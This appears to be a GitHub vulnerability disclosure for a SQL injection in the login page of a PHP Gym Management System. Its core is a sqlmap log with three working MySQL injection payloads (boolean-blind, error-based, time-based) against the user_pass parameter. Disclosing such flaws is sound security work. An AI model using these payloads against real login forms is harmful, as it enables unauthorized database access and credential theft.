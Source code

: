 # Gym-Management-System-loginpage-Sqlinjection
## Sqlinjection location 

![image](https://user-images.githubusercontent.com/81155906/183232989-38282673-25dc-4a9f-8cae-cfa497660576.png)



#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/183232969-91664a48-03fc-4b6d-a4d9-3d7732d3a89a.png)


```
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]

[11:59:51] [INFO] resuming back-end DBMS 'mysql'
[11:59:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: user_email=admin@123&user_pass=admin' RLIKE (SELECT (CASE WHEN (3500=3500) THEN 0x61646d696e ELSE 0x28 END))-- taXC&user_login=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: user_email=admin@123&user_pass=admin' OR (SELECT 4007 FROM(SELECT COUNT(*),CONCAT(0x7176786b71,(SELECT (ELT(4007=4007,1))),0x7170717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NWHQ&user_login=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_email=admin@123&user_pass=admin' AND (SELECT 9207 FROM (SELECT(SLEEP(5)))IKHi)-- rSaX&user_login=Submit
---
[11:59:51] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 7.3.4
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html
